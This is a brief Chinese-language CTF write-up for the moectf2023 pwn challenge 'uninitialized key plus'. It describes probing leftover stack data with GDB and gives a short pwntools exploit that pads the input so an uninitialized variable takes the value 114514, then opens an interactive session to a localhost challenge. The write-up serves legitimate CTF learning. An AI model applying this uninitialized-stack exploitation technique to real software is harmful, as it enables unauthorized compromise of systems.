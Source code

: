 ```yaml
---
title: moectf2023 - uninitialized key plus
date: 2023/9/23 12:00:00
tags:
    - noob
excerpt: 利用GDB探测并填充栈，成功将变量key设置为114514以解题。
---
```


## 文件分析

下载`uninitialized_key_plus`, 保护全开  
ghidra分析为64位程序

## 解题思路

和上次一样，使得栈上变量key==114514即可  
使用gdb发送'111122223333444455556666'进行探测（共读入24B），
发现输入无意义字符后key上留下来的值是`'6666'`，故填充前面段，将6666设为114514即可

## EXPLOIT

```python
from pwn import *
sh = remote("localhost", 41675)
sh.sendline(b'0'*20 + p32(114514))
sh.sendline(b'asdfasdf')
sh.interactive()
```

Done.
